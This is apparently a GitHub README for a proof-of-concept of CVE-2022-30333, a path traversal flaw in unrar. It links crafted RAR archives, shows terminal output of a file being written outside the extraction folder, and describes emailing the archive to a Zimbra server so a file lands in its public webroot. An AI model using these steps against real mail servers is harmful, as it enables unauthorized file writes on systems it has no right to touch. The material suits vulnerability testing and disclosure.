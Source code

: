# CVE-2022-30333-POC 
**Sample file to test CVE-2022-30333**
- [Sample.rar](./sample.rar) : if you want to test on Linux. When you extract, it create **trav** in **../../tmp/traversed**. Please be sure that directory **../../tmp/traversed** exists before extracting Sample.rar

- [exp.rar](./exp.rar) : if you want to test on Zimbra Mail server. When you extract, it create **moo.txt** in */opt/zimbra/jetty\_base/webapps/zimbra/public/*. You can access this file at https://zimbra_mail_domain/public/moo.txt  
## EXPLOITATION STEPS
### Testing on Linux
```
mkdir ../../tmp/traversed (the destination folder must exsist before unrar)

ls -la ../../tmp/traversed/
total 8
drwxrwxr-x 2 ubuntu ubuntu 4096 Jul  4 02:44 .
drwxrwxr-x 4 ubuntu ubuntu 4096 Jul  4 02:40 ..

unrar x exp.rar

UNRAR 6.10 beta 1 freeware      Copyright (c) 1993-2021 Alexander Roshal

Corrupt header is found
sym - the file header is corrupt

Extracting from exp.rar

Corrupt header is found
sym - the file header is corrupt
Extracting  sym                                                       OK 
Extracting  sym/trav                                                  OK 
Total errors: 4

ls -la ../../tmp/traversed/
total 12
drwxrwxr-x 2 ubuntu ubuntu 4096 Jul  4 02:47 .
drwxrwxr-x 4 ubuntu ubuntu 4096 Jul  4 02:40 ..
-rw-rw-r-- 1 ubuntu ubuntu   14 Jul  4 02:34 trav

cat ../../tmp/traversed/trav
"traversed"
```
### Testing on Zimbra
- Create an email and attach malicious rar file then send to Zimbra email address. This rar file will be extracted while being analyzed with Amavisd.
- The  moo.txt should be at: */opt/zimbra/jetty\_base/webapps/zimbra/public/moo.txt* or *https://zimbra_mail_domain/public/moo.txt*

## REFERENCES
1. [Vietnamese blog from DEV2SEC](https://dev2sec.tech/security/zimbra-pre-auth-rce/)
2. [English blog from Sonarsource](https://blog.sonarsource.com/zimbra-pre-auth-rce-via-unrar-0day/)
3. Special thanks to **mrlihd** for helping me rebuild attack-chain in Zimbra